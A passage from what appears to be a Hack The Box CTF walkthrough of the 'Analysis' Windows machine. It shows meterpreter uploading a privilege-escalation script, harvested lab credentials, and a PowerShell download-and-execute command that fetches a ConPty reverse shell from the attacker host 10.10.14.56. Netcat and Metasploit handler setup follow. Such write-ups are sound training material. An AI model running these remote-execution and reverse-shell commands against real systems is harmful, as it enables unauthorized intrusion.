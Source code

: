 ```
meterpreter > cd Temp
meterpreter > upload PrivescCheck.ps1
[*] Uploading  : /home/Batman/PrivescCheck.ps1 -> PrivescCheck.ps1
[*] Uploaded 157.47 KiB of 157.47 KiB (100.0%): /home/Batman/PrivescCheck.ps1 -> PrivescCheck.ps1
[*] Completed  : /home/Batman/PrivescCheck.ps1 -> PrivescCheck.ps1
meterpreter >
```

Now run the following command.

```
C:\Windows\TEMP>powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format HTML"
```

```
Domain   : analysis.htb.
Username : jdoe
Password : 7y4Z4^*y9Zzj
```

Now run **runascs.exe** in **analysis\svc\_web** (First Meterpreter shell)

```
C:\Windows\TEMP>.\runascs.exe "jdoe" "7y4Z4^*y9Zzj" "powershell.exe -c IEX(IWR -UseBasicParsing 'http://10.10.14.56:80/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell -RemoteIp 10.10.14.56 -RemotePort 4443 -Rows 120 -Cols 38 -CommandLine cmd.exe" -d "analysis.htb"running this you will get access to another shell.
```

Before running this command you should start a netcat listener on another terminal.

```
┌──(Batman㉿GC)-[~]
└─$stty raw -echo; (stty size; cat) | nc -lvnp 4443

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
analysis\jdoe

C:\Windows\system32>
```

Here you got **analysis\jdoe** as webservice.

Now again run another metasploit framework in another terminal.

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 4445
lport => 4445
msf6 exploit(multi/handler) > run
```
